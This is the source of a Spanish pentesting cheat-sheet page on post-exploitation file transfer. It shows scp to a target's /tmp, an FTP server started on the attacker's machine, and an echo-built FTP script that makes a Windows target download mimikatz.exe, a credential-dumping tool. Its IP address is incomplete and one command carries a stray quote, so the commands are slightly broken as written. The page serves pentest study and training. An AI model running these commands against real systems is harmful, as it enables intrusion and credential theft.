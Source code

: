 ```yaml
---
layout: article
title: Pentesting - Post-explotación
aside:
  toc: true
sidebar:
  nav: side
header:
  theme: dark
  background: black
---
```


<h2>Transferencia de información</h2>

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">SSH</div>
</div>

~~~bash
scp <binario> <user>@<ip>:/tmp
~~~

<div class="grid">
  <div class="cell cell--20 cell--lg-20 content" id="custom-table-header">FTP</div>
</div>

Levantar un servidor FTP en la máquina atacante:
~~~bash
pip3 install pyftpdlib ; python3 -m pyftpdlib -p 21
~~~

Guardar comandos FTP en un fichero dentro del sistema Windows:

~~~bash
echo open 192.168.150 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
~~~

Ejecutar comandos ftp para descargar el binario:

~~~bash
ftp -n -v -s:ftp.txt"
~~~